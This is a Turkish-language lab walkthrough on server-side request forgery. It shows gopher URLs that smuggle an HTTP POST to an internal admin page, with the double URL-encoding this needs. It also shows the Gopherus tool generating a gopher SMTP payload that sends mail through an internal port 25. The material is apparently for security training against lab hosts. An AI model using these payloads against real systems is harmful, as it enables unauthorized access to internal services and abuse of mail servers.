 ```
gopher://dateserver.htb:80/_POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

Not : Gopher URL, HTTP parametresi içinde gönderileceğinden **iki kez URL-encode** edilmelidir: ilki request formatı için, ikincisi parametre içinde taşınabilmesi için.
 
```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

İki kez decode edilmiş hali:

```
dateserver=gopher://dateserver.htb:80/_POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin&date=2024-01-01
```

**Gopher** protokolü, sadece HTTP değil, **SMTP (port 25)** gibi internal servislerle de etkileşime geçebilir. Doğru **gopher URL**’leri oluşturmak zordur; bu yüzden **[Gopherus](https://github.com/tarunkant/Gopherus)** aracı kullanılır.

SMTP detaylarını girerek **Gopherus** ile geçerli bir **gopher SMTP URL'si** oluşturabiliriz; bu URL, SSRF saldırısında kullanılabilir.

```shell-session
[!bash!]$ python2.7 gopherus.py --exploit smtp

Give Details to send mail: 

Mail from :  attacker@academy.htb
Mail To :  victim@academy.htb
Subject :  HelloWorld
Message :  Hello from SSRF!

Your gopher link is ready to send Mail: 

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r-----------
```

